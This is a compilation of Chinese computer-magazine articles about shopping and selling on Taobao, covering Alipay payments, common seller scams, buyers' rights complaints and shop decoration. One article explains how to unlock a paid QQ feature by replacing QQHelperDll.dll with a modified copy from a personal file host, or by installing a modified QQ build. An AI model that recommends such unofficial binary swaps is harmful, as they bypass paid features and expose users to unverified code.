| 消费者保障服务之“商品如实描述”服务规则 |
| 消费者保障服务之“虚拟物品闪电发货”服务规则 |
| 淘宝抵价券促销活动规则 |
| 消费者保障服务之数码与家电30天维修服务规则 |

淘宝丰富的规则，不仅规范了网购市场，为商家营造了良好的市场环境，同时更为重要的是，让买家可以放心购物。相信消费者看到如此数量众多、涉及面广的规则，会更放心在淘宝购物的，从另一方面稳定了客源。而作为淘宝会员，一定要了解和熟悉这些淘宝规则，如此一来才能用好这一个网购平台。

# 淘宝店铺随身带——巧用移动旺旺

文/TMG lx

淘宝作为网购第一品牌，其中的店铺可是多不胜数，但这些店主大多数的是兼职，是利用在业余时间打理自己的网店。但是不能时时刻刻守在电脑前的他们很容易损失掉很多顾客，无形之中造成生意流失。手机版的阿里旺旺可以让你随时随地与店铺保持联系，当有顾客光顾的时候，则会通过手机版的阿里旺旺与他们沟通，随时随地做生意，就像把你的淘宝店铺随身带着一样，很不错！

- 1. 下载阿里旺旺5.5（http://www.taobao.com/wangwang/mobile/index.html），并进行安装，双击运行，登录。
- 2. 单击阿里旺旺右上方的“短信”两个字。在弹出的对话框中输入手机号码、验证码等信息，单击“确定”进行绑定。
- 3. 根据需要，选择退出旺旺时需要的状态，如选择“当我离线时，我的旺旺显示为手机在线状态，用手机免费接收其他旺旺用户发给我的短信。”

这时当你关闭电脑上的阿里旺旺，登录你的店铺，就会发现店铺首页的地址下面，旺旺图标显示的是“手机在线”状态，与电脑在线一样。买家与你的对话就会发到你的手机上，你就可以用手机来办公了。

目前，一部手机只能绑定一个店铺的旺旺，而且只有当电脑上的旺旺离线时候存在。

另外，现在的移动旺旺还不太稳定，有时候启动时，顾客所发送的信息会出现遗漏情况造成一些误会。资费也比较贵，除了每条0.1元的短信费外，还要支付梦网短信费，每条也是0.1元，从手机话费里扣除，也就是说用手机移动旺旺发送信息，每条应该是0.2元。

因此，虽然移动旺旺可以帮助我们抓住每一个商机，但还是要量力而行，如果交谈次数过多，无形会增加交易成本，那就不划算了。

# 淘宝网购“买单”须谨慎

文/TMG lx

现在，网购俨然已经成为我们生活中的一个重要部分，这与其方便快捷、信息量大的特点脱不了关系。但在我们享受网购的优点的同时，网购安全方面的隐患也逐渐显现出来了，特别是在付款环节，还真不让人放心。下面我们就来介绍网购，特别是淘宝网购中，我们在‘买单’的时候应该注意一些什么。

### ‘买单’全过程

- 1. 挑选好宝贝，单击“确认购买”，填写相关信息。然后单击“支付宝付款”，按照提示输入密码。如果支付宝里有足够的钱则直接汇款，如果没有可登录支付宝账号对支付宝进行充值，或者在单击“支付宝付款”后选择你所开通的网上银行，登录银行进行付款。这时候款项并没有进入卖家的账户，而是暂存在支付宝中，等待买家收货确认。
- 2. 在淘宝首页上单击“我的淘宝”，然后单击左边的“已经买到的宝贝”，查看卖家是否发货。一般正规的快递公司可以在网上查到发出的货物，随时掌握宝贝的周转状态。
- 3. 收到宝贝后，在验货无误的情况下，进入到“已经买到的宝贝”页面，单击“确认收货”，这样支付宝才最后把款打给卖家。如果买家不确认也不申请退款，一段时间后支付宝也会把款放给卖家。另外，还有双方的评价过程。

### ‘买单’小问题

#### 1. 注意付款超时

以淘宝为例，是存在确认付款的期限，也就是说买家需要在规定的期限内进行确认付款活动，否则将会由系统默认确认付款。具体规定：自创建交易时起或卖家最后修改交易条款起7天；阿里巴巴网站上的交易自创建交易时起或卖家最后修改交易条款起15天；淘宝上自动发货的商品，自创建交易起或卖家最后修改交易条款起24小时。在这个时间段内如果买家逾期不付款，默认关闭交易。如果卖家修改交易价格或买家操作过网银但没有付款成功会重新开始计算超时时间，网站一般会在距离最后期限的3天前、1天前分别给予超时提醒。

#### 2. 大额支付

鉴于网购交易的安全隐患，很多银行都采取了网银支付限额，如工商银行单笔支付限额为300元，农行单笔支付限额为200元。但如果我们要买一些超额的宝贝时，比如笔记本电脑、数码相机等，需要大额支付，该怎么办呢？有以下几种方法。

- 方法一：分次对支付宝账户充值。建议买主登录支付宝账户，先对账户进行分次充值，直至有足够余额后再选择用账户余额进行支付。
- 方法二：联系银行办理专业版网银以获得更高支付限额，或者根据支付宝支持银行限额表换用其他限额较高的银行网银。
- 方法三：可用现金或邮政绿卡到邮政柜台办理“网汇e”，注意在填写汇款单时设置密码，填完后登录到支付宝网站上再填写汇款单、汇票号以及密码，就可以实时给对方的支付宝账户充值。

我们这里以淘宝为例介绍了一下网购“买单”的具体情况和其中可能遇到的一些小问题，希望这些小问题能为各位带来大用处。

# 卖掉网，统统都卖掉！

我们身边经常会有很多闲置物品，像那些废弃不用的旧物、礼品、赠品，你是否为如何处置它们而伤脑筋呢？“卖掉网”为你提供多种处置方式——出租、转卖、交换等，集结多种交易方式，为你提供全面闲置物品解决方案。

“卖掉网”（http://www.maidiao.com/）进入网站后，单击右上端的注册链接申请成为会员。步骤十分简单，只需输入邮箱、用户ID与密码三项即可。然后登录注册邮箱，进行激活（建议大家注册结束后完善一下资料，以便于在交易时联络沟通）。下面，就来感受一下“卖掉网”带给我们的多渠道、全方位的在线交易体验。

### 商品出卖

为了将闲置物品卖出以换取真实的钞票，我们要将要出卖的物品“上架”买卖。

- 1. 单击网页右上端的“我要发布”按钮，进入“发布物品”页面。
- 2. 单击“卖掉”按钮，在显示页面中选择商品分类，输入名称、当前所在地、新旧程度、估价等物品信息、支付信息与联系方式，再提交即可。

在填写以上信息有几点注意事项：

- 1. 展示照片不要使用网上的产品宣传图，需要自己实拍商品再上传（增强可信性）。
- 2. 在选择“在线支付”方式时，要尽量选择使用卖掉币支付，卖掉币类似于淘宝的支付宝，以网站自身的信誉做保障，买家也会减轻一些支付安全方面的顾虑。

在发布了商品信息之后，进入到“卖掉”版块，选择“二手物品”分类，在此即可看到所有的卖品信息，包括商品名称、价格、运费、数量等。买家可直接在此选择关注、推荐等操作。若对该件商品感兴趣可了解一下卖家的信用度与交易记录，由此看出“卖掉网”的用户信誉体系还算比较健全。

除了定价出售之外，还可使用拍卖的方式出让商品，这种交易方式尤为适合一些收藏品、奢侈品、限量版之类无明确市场定价的商品。

### 以物换物

现实生活中还有一种情况，就是：双方都有闲置物品，而一方手中的正是另一方需要的。这时候以物换物，则可使物尽其用。

- 1. 在“发布物品”页面中选择“换物”，输入交换商品信息（与卖出商品类似）。
- 2. 提交信息后进入到“换物”版块，在此先看看有没有自己需要的东东（可直接搜索换品名称）；再了解一下对方的交换条件。如果双方一拍即合，即可进入换物流程。

### 出租出借

你手头有没有这样一种物品，你想保留但一段时间之内闲置不用，这时候可以考虑采取出租或出借的方式。“卖掉网”就提供了这方面的服务。我们可以将手中的这类闲置物品出租出借。但是需要注意是，在出租出借的时候要定制好合理的押金（以当前商品的折价为参考标准）与租金。

对方如果在“借物”版块中找到所需商品后，就可以确认订购商品，同时需输入租借期限，并且预先付款。我们在收到付款后七天内需给买方发送商品。交易就成功了。还是很方便的。

“卖掉网”提供这么多闲置物品解决方案，让我们将闲置物品统统卖掉，不仅仅合理发挥了物品的实用价值，也可以为我们自己带来经济利益的最大化，何乐而不为呢？！

# 网购维权知多少

文/TMG zlw

随着电脑的普及使用，人们对这个好帮手的依赖程度也是越来越高。网络购物应运而生，只需浏览、点击购买、付款几个简单的操作，就让我们足不出户也能购尽天下精品。这倒的确是节省了不少瞎逛的时间、免去了徒步行走的疲劳感。但与此同时，它也带来了很多严重的问题，如商品假冒伪劣、售后服务缺失，甚至还出现了欺诈现象，作为受害方的消费者该怎么办？学会网络维权是关键。

### 常见的侵权行为

了解了网购风险的成因后，让我们再来看看平日生活中的网购侵权行为到底有哪些吧。

#### 1. 商品与卖家描述不符

最常见的网络侵权行为莫过于买家收到的商品与卖家的描述不符，笔者也是多次遇到这样的情况，特别是在服饰产品的购买上尤其突出，颜色、款式、型号，都有可能错。更有甚者，居然把假冒伪劣产品当做正品公开在网上叫卖，这就显然是欺骗消费者的行为。所以在买家收到商品时，一定要注意验货，当货品不对时，可以当场拒收。

#### 2. 被诱导提前付款

在网上购物时还曾经遇到过这样一种情况，卖家说是厂家最近周转不顺，所以需要先付款才能拿货，于是便利用买家的求物心切，诱导买家直接向其账户打钱（见图1）。不少买家觉得也在情理当中，傻乎乎地打钱过去后，该卖家就再也没有现身过，时隔不久，甚至连店铺都被撤销了，于是才回过神来。所以说网上购物还是应该严格按流程走，以把这样的骗术挡在外。



#### 3. 被引导错误操作

另外有一类卖家主要是针对对网购不熟悉的买家下手的。他好心地一步步告诉的操作的方法其实是将你账户的钱转入他户口的转账程序，许多不明就里的买家还觉着卖家很好，真是被卖了还在帮人数钱。各位买家，购买前还是花点时间研究下流程吧。

#### 4. 遭遇欺诈

最可恶的就是那种在网购时设好陷阱，只等懵懂的买家上钩的卖家，他们根本就是一群欺诈犯，只是在网络这个隐蔽的世界里，不是那么容易被人发现。

### 如何避免侵权

庆幸的是尽管网络陷阱无处不在，但我们还是有一些措施可以降低“踩中雷区”的几率，希望广大买家能谨记在心。网上购物时尽量选择那些信誉较好的卖家。在淘宝网上就标有买卖双方的信誉度，这可以作为参考，大家都选的不会差到哪去的。完成货款支付时，强烈推荐“第三方支付”平台，例如淘宝网上的“支付宝”。

买方将货款置于“第三方”，收到货并检验无误后再通知“第三方”将货款支付给卖方。使资金在交易过程中是独立的、安全的，有效避免钱货两空现象的出现。严格按购买支付流程交易，理由前面讲过了。还有很重要的一点，就是购物时千万不能贪小利，当你浏览到某件物品低于市价很大幅度的时候，还是直接跳过吧，因为这有百分之九十九的几率是个骗局。

### 维权措施需掌握

前面我们介绍的这几种情况是在网络购物过程中经常能够碰到的，应引起我们极大的关注，并且我们要做好一切防护措施，将一切危险扼杀在它萌芽的时期。但如果不幸的事情还是发生了，我们也应该大胆站出来维护自己的权益。总的来说，我们大致可以通过两种方式来维护自己的权益。

当遇到相对较轻微的欺诈时，我们可以通过网站投诉来解决（见图2）。以淘宝网为例，如果买家付款后卖家却随之消失，无法联系，而所购商品也没有收到；或者是虽然收到了所购宝贝，但该宝贝却与之前卖家描述的存在严重不符的情况，而卖家此时却以各种理由拒绝退换的。



我们买家就可以在退款期限之前通过“我的淘宝→已买到的宝贝→退款”提出退款申请，或者是在交易成立3天后通过“我的淘宝→已买到的宝贝→投诉”向淘宝及时提交投诉情况，同时淘宝也会要求你提供诸如交易凭证、商品鉴定证明等资料，以证明买家所诉事实的真实性。

这是举证的关键，所以再次提醒广大买家朋友切记要保留好购买商品的资料、汇款凭证，以及交易往来过程中双方联系的邮件及其聊天记录，用事实说话，维护好自己的权益。如果是收到疑似假冒伪劣的商品，就应在保持商品原样的情况下，委托权威的质检部门进行鉴定并出具鉴定报告，记住，这份报告同样很重要，须注意保存。

淘宝网会在接受投诉后立马冻结支付宝内的资金，并进行分类处理，根据买家所提供的资料综合考虑，公正地对此交易行为进行判断，采取合理的方式将纠纷解决。

如果确定了卖家行为构成欺诈，且金额已经达到我国刑法所规定的起算点600元后，买家可以向公安机关报案，或者举报。严重时还可以委托律师，通过法律途径更好地维护自己的权益。淘宝也将会在收到警方的正式公函后对本案提供协助。

# 我的第一次网购——今天，你网购了吗？

文/TMG zlw

网络购物日益普及的今天，我们可以足不出户，轻松点击鼠标购买自己心仪的宝贝，省去了现实购物中所花费的大量时间和体力。看着周围朋友纷纷“触网”，我也受到吸引，决定体验一下新潮的网购，果然发现“网购，妙不可言”。不过，没想到的是其中居然还有挺多门道的，下面就来与大家一起分享一下我的第一次网购经历。

### 申请购物网站会员

打开淘宝网站，http://www.taobao.com/index.php，单击页面顶端的免费注册。选择注册方式。填写注册的个人信息（见图1）。登录电子邮件，进行确认。注册成功。这一下，我也成为淘宝购物大军中的一员了！



### 申请一个支付宝

为了付款方便，我还需要申请一个支付宝账户。但是由于淘宝网的会员注册选择了自动创建支付宝账号，所以只需补充一些信息（见图2），即可开通支付宝。呵呵！真的很贴心呢，喜欢！

登录“淘宝网→我的淘宝→支付宝专区”，点“管理”进行激活。填写

### 网购陷阱多，还需多小心！

网络购物虽说很方便，但是还是有很多陷阱，我们需要保持极高的警惕性哦！以下是我网购经验的一些总结：

+   陷阱一：商品价格超低

有时候，我们会发现网上某些商品的价格很低，甚至有些低得离谱。这时候我们就要小心了，千万不可中招哦！尽管商家会给出各种理由来支持商品的价格为何如此低，但是我们也千万不可轻易相信！要不然可就正好中了骗子的圈套喽！

+   陷阱二：商家信用很高

我们在选购商品的时候应该首先要注意商家的信用度。一般情况下，我们会看别人对这一商家的客观评价。但是有时候我们会看到有些商家信用度很高，这时，我们不要以为找到可以依赖的商家了。因为现在存在着这么一群人——专门负责帮一些卖主添加好评，提高他们的信用度。所以我们一定要小心！当然评价很高的商家也不一定全是靠这种方式得到的。总之，我们还是要小心谨慎对待这些评价。



+   陷阱三：网上商品被说得很好

有些商家夸大宣传该店商品质量，当我们买回去之后发现：商品在功能、材质、规格或者颜色、样式上严重与网上商品不符。所以，我们在决定购买之前，一定要把商品可能出现的不一致的地方提前和商家沟通好，方便以后真正出现问题了好解决。

+   陷阱四：商家自称没有支付宝功能

商品选购成功，价格也谈妥了，到支付的环节了。有些商家会给出种种理由说没有支付宝功能，然后说服我们直接汇款到对方的账号上，这时，我们就得注意了，小心陷阱哦！在支付过程中我们一定要坚持要求使用支付宝交易，这样可以保障我们的利益。

+   陷阱五：商家着急催确认

如果在我们还没收到商品时，商家就以种种借口要求我们确认收货，我们要想到这有可能是商家为我们铺设的一个陷阱。这时，我们一定要坚持收到货物验证无误之后才去确认。而不要被他们的花言巧语所蒙骗了。

+   陷阱六：先退货再调换

如果我们对买到的商品不满意，要求商家退货，有些商家会让我们先把货物退回去，然后再给调换。此时，我们要小心啦！或许这是骗子在故意拖延时间，等货物退回去后就消失得杳无音信。所以在退货之前一定要和卖方协调好如何去调换，邮费如何支付等等这些问题。

针对以上有可能出现的陷阱，我为大家也准备了一些招数来应对他们的骗局：

在货物未收到之前不要着急付钱。可能有时候有些商家会催我们提前付款，我们也不能听他们的，一定等到货到并验证后方可确认付款。一旦货物收到后，应该仔细检查货物，看是否和网上的图片以及网上所描述的一些特性一致，确定一致没有问题之后，再去确认付款。

### 招数一：谨慎选择购物网站

在网购时，一般我们要选择比较大型的网站，比如说淘宝网或者卓越网等，大家对这些网站的评价都还不错。也可以在网购之前，通过上网查询或者咨询身边的朋友等多种途径，获得大量购物网站的信息，从中筛选自己认为信用度、质量等比较好的购物网站。

### 招数二：诚信商家的选择

选择好购物网站后，还要选择商家。对商家的选择，我们应该注意买家对他们的评价。但这个并不是说要100%的好评，其实100%的好评并不一定能证明这个店就好，或许其中可能有猫腻呢，呵呵！我们最重要的是要看中评和差评，这样看下去，我们心中就基本上做到心中有数了。

### 招数三：坚持使用支付宝

在货物进行支付时，不论是什么样的诚信商家，一定要坚持使用支付宝进行交易，千万不要被某些骗子的花样所迷惑。

### 招数四：坚持货到付款

无论商家给出什么借口要我们提前确认付款，我们都不要答应，一定要等到货物取到之后，验证无误了，再去确认支付。

### 挑选自己喜欢的宝贝

#### 1. 挑选原则

在确定了网购网站以及商家之后，就开始搜索我们想要的宝贝啦！下面是我在挑选商品时的2点原则，供大家参考：

##### （1）所购商品一定要有实物图

选择网购，就意味着我们不能亲眼看到自己所选购的商品，只能看到该商品的图片。有时候商家为了吸引顾客的注意，可能从某些杂志上截取的是明星照片。所以我们在选购时，一定要看该商品的实物图式。

##### （2）不断和商家沟通

选购商品时，要及时和商家进行沟通，了解商品的关键信息，比如：是否是正品、行货、主要功能等，把商品可能出现的一切问题提前和商家商量好，以免有些商家在质量真正出现问题后不认账。同时，对于通话记录要保存好，作为“秋后算账”的凭证（一般来说，如果你使用的是一台电脑就不存在保存的问题了）。

#### 2. 怎么拍

在选定自己所要购买的商品之后，不要立即决定购买。首先要货比三家，确定购买价格。可以到其他地方去看看同类商品的价格，然后给该商品确定一个自己可以接受的价格范围。在淘宝网购物，有些时候价钱可以商量，这一点常被大家所忽视。我们可以和商家进行协商，尽量把价钱磨到最低。当然，如果商家明确规定该商品是最低价，不可再商量！那就别砍了。

一切谈好了，我们就可以单击确认把宝贝拍下来了！单击宝贝旁边的“立即购买”，就进入信息界面，填好信息（见图3）后，单击“确认无误，购买”。

#### 3. 不要着急付钱





| 全选 | 合并付款 |
| --- | --- |
| □ 订单编号：1753730100 成交时间：2009-04-25 21:07 | □ 一定要收到货物，再单击“确认收货”哦！ |
| 【日本料理/日式风味食品】 10.00 3 退款 越南美味 39.00 （含快递） 10.00 | ☐和我联系 |

### 收到宝贝

#### 1. 收到宝贝

我们发出订货通知并付款后，就等着收自己的宝贝喽！一般情况下，即使买卖双方路程很远，收到商品的时间也不会超过一个星期。所以我们要在订单发出之后留意自己的商品是否已到。等收到商品后，首先要认真检查商品是否和网上所描述的一致。

#### 2. 确认支付

收到商品后，经过认真检查商品，确定没有什么问题后，点击“确认收货”（见图4）。还是那句话，无论商家给出什么样的理由，一定不能在收到货物之前进行确认。

#### 3. 给出评价

确认支付之后，并不是没什么事情了。我们还要对自己所购买商品的商家给出适当的评价。这样做，可以指引以后的人是否选择该店进行网购。一定要根据实际情况，给出一个客观中肯的评价，以免误导其他的顾客！

结语：经过这个第一次网购，的确体会了网购的独特魅力。呵呵！发现自己喜欢上网购了，现在我都在家里舒舒服服地逛网店了，真是轻松又愉快，快加入我们，成为网购大军中的一员吧！

### 小心支付宝交易中的陷阱

淘宝网购交易离不开支付宝，而支付宝不仅仅是淘宝交易中的付款方式，同时也是针对其他多种网上交易的安全付款服务。其实质是一种付款的信誉中介机构，在买家确认购买商品后，会将钱先付给支付宝由其暂时保管，收到货物后进行确认，支付宝再付给卖家。表面看起来，这种交易过程是很安全的，但并不意味着使用支付宝交易就万事大吉。在这之中还是存在许多可能的陷阱。

### 陷阱一：不验货

很多人在网上购物中，经常会忽略验货环节，在收到货物时往往不验货就签收了。很多JS利用消费者的这种心理，将假冒伪劣商品寄过去，当你发现上当了，却没有可以相关的证据。而淘宝在纠纷处理中，按照规定需要提交他用EMS发货给你的证据，如果无法提交，你就只能是哑巴吃黄连，有苦说不出。

对策：小心为上。要想避免这种情况，只能不怕麻烦，在收货的时候要小心一些（见图）。特别值得注意的是最好收到货时立刻当着快递人员打开，如果货物不符可以拒收，并让快递人员给有关证明，然后联系卖家，商议相关事宜。


### 陷阱二：不用旺旺

在淘宝购物的时候，所有交易最好在旺旺上谈。这不仅仅是方便的问题，更重要的是如果后期货物有问题，在淘宝申诉的时候，所提交的证据必须是旺旺的。就有部分JS，要求在QQ上交谈，然后当你付款后却不发货，而你要投诉却证据不足。

对策：使用旺旺进行交易。因为其他QQ、MSN等即时通信工具所提交的证据，淘宝网一律不予支持。

### 陷阱三：改为汇款

交易开始都很顺利，但到买家拍下东西后，卖家以各种理由说支付宝不能支付，拒绝用支付宝交易，让买家直接汇款给他，这时候如果买家拒绝汇款，则会以投诉你“拍下不买”来相威胁，直至你汇款给他们。

对策：坚持一点，无论如何都不要直接汇款给他们。当他们说支付宝不能用，而让你用汇款时，你就需要提高警惕，这很有可能是一个骗局。如果卖家要投诉你，你可以反过来投诉他“卖家拒绝使用支付宝交易”。

网上购物，安全意识很重要，大家一定要提高警惕。加上，现在网上骗子们的手段还在不断地花样翻新，我们更要做好自我保护工作。作为淘宝中很重要的支付环节，支付宝的使用更要多加注意了。

# 表情涂鸦，玩就玩免费的

文/孙学荣

看了《电脑爱好者》2008年第6期第45页《不是会员，也玩表情涂鸦》一文，文章介绍了对于非QQ会员的朋友，如何使用表情涂鸦。笔者对此比较感兴趣，于是亲自试了一下。大概是因为腾讯已经修复了这个BUG的缘故，笔者发现，非QQ会员是不能够在QQ2008和QQ2009中使用表情涂鸦功能的（这两个版本的QQ均是从腾讯官方网站下载）。不但如此，由于原文作者是通过“取色密码灰色按钮”来实现让非QQ会员使用表情涂鸦功能的，即使是在QQ2007中可以实现，每当需要给Q友发送添加了个性文字的涂鸦表情时，都得先运行“取色密码灰色按钮”，使得原来的灰色按钮变成正常的颜色，这也是比较麻烦的。那么，对于非QQ会员的朋友来说，有没有更好的方法可以使用QQ的表情涂鸦功能呢？答案当然是肯定的。下边，笔者就给大家介绍一下，在QQ2008和QQ2009中如何来实现很方便地免费使用QQ的表情涂鸦功能。

### QQ2008如何使用表情涂鸦

其实，我们能否使用QQ表情涂鸦功能，关键是取决于一个动态链接库文件——“QQHelperDll.dll”，这个文件位于QQ的安装目录下（如“C:\Program Files\QQ2008”目录下）。大家可以登录http://tanry.ys168.com/，接着在这个页面中展开“免费QQ表情涂鸦”文件夹，这时大家会看到该页面中有QQ2008正式版、QQ2008 Beta2版、QQ2008 Beta1祝福版等多个不同的QQ2008版本的“QQHelperDll”文件的压缩包，大家可以根据自己的实际情况，下载与自己安装的QQ版本所对应的动态链接库QQHelperDll压缩包；最后在退出QQ的情况下，解压并替换QQ安装目录下的同名文件即可。

完成QQHelperDll.dll的替换工作后，接着启动QQ并登录自己的QQ帐号，打开与任意一个QQ好友的聊天窗口，进入“编辑涂鸦表情”对话框，这时大家就会发现原本灰色的“完成”按钮已经变成了正常颜色。这样即使我们不是QQ会员，也可以使用QQ的表情涂鸦功能了。

> 小提示：虽然替换QQ安装目录下的QQHelperDll.dll文件不会出现什么意外，但笔者还是建议大家做好该文件的备份工作，以防万一。

### QQ2009如何使用表情涂鸦

对于很多喜欢追求时髦的朋友来说，相信自己的电脑中早已经抛弃了QQ2008，而用上了QQ2009了吧！其实，在QQ2009中同样可以使用QQ的表情涂鸦功能。大家登录http://www.skycn.com/soft/24161.html，下载“QQ2009 狂人DIY版”并执行安装操作，当运行到“选择组件”对话框时，勾选“涂鸦表情”复选框；当然，大家也可以根据自己的爱好，勾选其他复选框以安装相应的组件；最后按照提示完成软件的安装即可。

# 在网上“王府井”开家店——淘宝开店教程

号称“没有淘不到的宝贝，没有卖不出的宝贝”的淘宝网为我们带来了一种新的消费方式——网上购物。坐在电脑前的我们，只需要连上网络，动动鼠标，打打键盘，你想要的东西就可以轻松地送到手上。你是否也会心动，自己做一做淘宝的店主呢？就让我们一起来吧！在这个网上的“王府井”开一家属于自己的小店！

### 装修前奏：了解网店构成

要想开店，没有必要的装修怎么能吸引人？要想装修，不了解淘宝网店的构成怎么行？ 在我们进行网店装修之前，了解淘宝网店的构成是必不可少的。这里介绍的是普通店铺装潢方法，是新手卖家所要掌握的装修技巧中最基础部分。另外还有旺铺（需向淘宝缴纳一定金额），结构与普通店铺略有不同，特别在外观上，相对更为精美。

#### 1. 店标

一般在店铺的左上角（见图1），是我们小店的标志，因此要体现自己的个性以及店铺经营的内容，当然你也可以放上自己的照片或者宝贝的照片，同时你还可以使用动画效果，总之一定要醒目，一定要吸引人，但切忌太过复杂。



#### 2. 公告

一般在店铺的右上角，可以发布店铺的简介，也可以发布最新的产品信息，是滚动播放的，可以容纳一定的信息量。店铺的公告一般是给顾客第一个交互印象的地方，所以不仅仅要外形美观，在文字部分也要注意修饰，要让用户觉得贴心。

#### 3. 宝贝分类标签

位于店铺左侧（见图2），一般呈树状结构，相当于店铺产品的目录。漂亮的分类标签不仅仅可以吸引顾客，同时由于所占面积较大，位置比较显眼，还会起到美化店铺的作用。不过我们在装潢的时候除了美观外，实用性也很重要，要考虑结构设计是否合理，能不能最大程度体现商品种类和特点，用户能不能轻松找到需要的产品。



#### 4. 产品描述

当用户点击相应产品时，会转入一个新的页面，这时候页面的主体就成了产品描述，用户可以输入文字和图片链接，介绍产品，说明交易规格和物流等问题。这部分支持HTML代码，用户可以根据自己的需要和喜好来装修。

#### 5. 其他

除此以外，还有店铺介绍、个人空间等，我们在装修的时候也要注意。 这些各个部分在装修的时候可以分为一个个板块，仔细地一个个美化，很多装修店在装修的时候也会分开收费，所以新手卖家要对各个部分有所了解，在装修的时候才能有的放矢。另外，在装修的时候要注意各部分的协调和统一。

### 小店装修大变脸

漂亮的店铺往往在第一眼时就可以给人留下好印象，有效提高店铺交易的成交率。就像我们在逛街时愿意去装修光鲜亮丽的店铺，而避免去灰头土脸的店铺。因此，在开通店铺，找到货源进货后，我们还需要对自己的店铺装修一番，来吸引顾客光顾。而好的店铺装修也是新手们快速晋级的捷径，大家一定要重视啊！下面我们就来分享一下装修过程中技巧。

#### 一、装修方法

##### 1. DIY

作为刚起步的店主，如果资金有限，那么最行之有效的装修方法应该就DIY了。DIY也有很多种，下面我们就来一一介绍一下。

**基础设置：**

**第一步：** 登录你的淘宝账户，在右侧导航栏中的“我是卖家”中单击“管理我的店铺”，就进入店铺装潢界面。

**第二步：** 点击相应页面进行相应设置，对店铺进行美化装潢。

**第三步：** 应用设置。

界面设计很人性化（见图），操作起来非常简单，这里我们就不详细介绍了。 淘宝网自带提供几个店铺风格可供选择，单击即可使用，是免费的。



### 天生我材

（淘宝店铺装修）

淘宝网为卖家提供了基础的店铺功能，虽然是免费的，但是非常少，制作也不精美，不够个性化。这时候就需要我们对店铺进行额外的装修了。

### 代码装修

由于淘宝各个板块支持HTML语言（更改源文件），所以我们可以使用代码对界面风格等进行进行更改。这时候如果卖家对计算机知识，特别是网络语言比较了解，最好是熟练掌握，那么你就可以自己编代码，对店铺进行装修了。

如果像本人一样，对这些知识停留在知道和略微能看懂的阶段，可以选择参考借用别人发布的代码，这是一个非常好用的方法。在“淘宝大学”中就有很多帖子有代码发布，其他论坛也有很多。大家可以参考一下（推荐一个帖子：http://university.taobao.com/university-6/show_university-----10175174-.htm【教程】手把手教您装修店铺）。

自己使用代码装修虽然比较麻烦，但是装修出来的店铺往往比较有个性，最重要的是符合你的需要和产品的特点，而且我们自己也会很有成就感。新手通过自己DIY装修也会对店铺使用越来越熟悉。很多代码在装修过程中慢慢摸索就会发现其实也不是很难。个人比较建议采用此种方法，虽然费力，但是省钱，刚开始要节约成本嘛！

另外，推荐一个装潢网站——淘e拍www.te8.com，大家可以注册一下，里面有很多店铺宝贝展示时产品描述的模板，免费的虽然有限，但都很漂亮，我的很多朋友就是使用这个网站上的模板，总比白花花产品展示的好看。

淘宝网上有很多以淘宝店铺装修为产品的店铺，这些店铺往往具有丰富的装修经验和技术支持，可以为你提供多种装修风格选择。大多数都很漂亮，但我还是建议你在装修的时候要有自己的想法，多与店家进行沟通，也可以说出自己的想法让老板帮你选。这里面很多都是用的一样的模板，虽然华丽有余，但往往个性不足，不过不可否认其装修效果确实不错。

> 小贴士
装修的时候还有很多需要注意的，特别是装修的时候一定要“对症下药”。
首先要考虑的就是你店里卖的是什么产品。我们进行装修主要是为了宣传，是为了把产品更好地销售出去，所以其风格一定要与产品风格相符，不要“文不对题”。装修风格要能很好地衬托产品。
另外，切忌过于华丽。很多卖家觉得装修嘛要弄得越华丽越好，但华丽并不等于美丽，有时候简约也是一种简单之美，不要花了钱出了力还不讨好。

总之，在装修的时候要注意店铺整体风格的融合和统一，要以产品为出发点。

### 2. 请家“装修公司”

如果你想与众不同，想有大店的感觉，而又觉得自己装修太过麻烦，或者没有什么技术基础（大多数人都是因为技术不行）。那么我建议你可以开通淘宝旺铺，另外就是请家“装修公司”，花一些MONEY来请人装修。个人认为后一种方法更省时省事，更漂亮。

### 淘宝规则你知道吗？

淘宝网是一个网络电子商务平台，如同现实社会的市场一样，有着自己的规则。作为其中参与者的我们，特别是作为卖家，需要了解这些规则，其中比较重要的有以下一些规则。

#### 1. 协议

淘宝网服务协议: http://service.taobao.com/support/help_detail-5600.htm

该协议是淘宝网和其用户之间的“合同”，规定了双方的权利和义务，即用户在使用淘宝提供的各项服务的同时承诺接受并遵守淘宝的各项相关规则，淘宝提供用户相应服务和维护网络正常运营并有权对有不当行为的用户终止服务。

#### 2. 规则

商品规则: http://service.taobao.com/support/8020000.htm

包括闲置商品发布规则、淘宝拍卖规则、商品发布管理规则、自动发货规则、发布代购商品规则、发布商品的条件等。这些都是交易过程中与商品有关的一些规则，作为卖家的我们要详细了解一下，对于我们发布商品和管理商品都很有用。

消费者保障服务协议: http://service.taobao.com/support/help_detail-6199.htm

该协议规定了参与“消费者保障服务项目”（淘宝组织，由信誉度较高的卖家申请，淘宝接受申请后授予卖家的一种认证）的用户与淘宝网、支付宝之间的责任和义务关系。

商城规则: http://service.taobao.com/support/8294.htm

淘宝商城是淘宝网新开发的一个下属购物网站，属于淘宝网，但是管理更规范，商品质量更高，交易安全性更好，该协议即规定淘宝商城相关交易规则。

交易规则: http://service.taobao.com/support/8288.htm

规定交易过程中对评价、物流、信息、争议、店铺、橱窗等相关事项的要求和管理方法。

处罚规则: http://service.taobao.com/support/8292.htm

这是对违规交易用户和行为的处罚规定，同时包括举报和投诉规则。

特色服务规则: http://service.taobao.com/support/8293.htm

淘宝的“消费者保障服务”包括“假一赔三”、“7天无理由退换货”、“商品如实描述”、“虚拟物品闪电发货”以及数码与家电30天维修服务，这些服务都有着相应的具体规定和要求。此外，对于抵价券、爱心捐赠、全球购、VIP卡等服务也有着相应的规定。

除了以上说的淘宝规则之外，还有工具规则（支付宝和阿里旺旺淘宝帮使用规则）和社区规则（包括在社区发帖规则、会员管理规则、银币使用规则等），这些规则共同规范着用户在淘宝这个交易平台上的行为。从淘宝完善的规章制度我们也可以看出这一平台的成熟，不仅仅对于买家是一个很好的保障，也为商家提供了良好的交易环境。

### 怎样成为一名淘宝店主

要想成为淘宝店主，首先就要成为一名淘宝会员，然后通过相应的认证，才可以开始具体的开店事宜。

#### 注册成为会员

淘宝网采用的是会员制服务，只有注册成为会员才能进行买和卖活动，同时提供信誉度极高的支付方式——支付宝，以及专用聊天工具——阿里旺旺。那么我们首先要做的就是注册成为淘宝的会员，目前淘宝注册会员、认证、发布宝贝、开店、交易等均是免费的。

第一步：单击淘宝页面上方的“免费注册”（见图1）。选择注册方式。淘宝网支持两种注册方式——手机号码注册、邮箱注册，使用起来都很方便。单击相应的按钮就可以进入相应的页面进行注册。

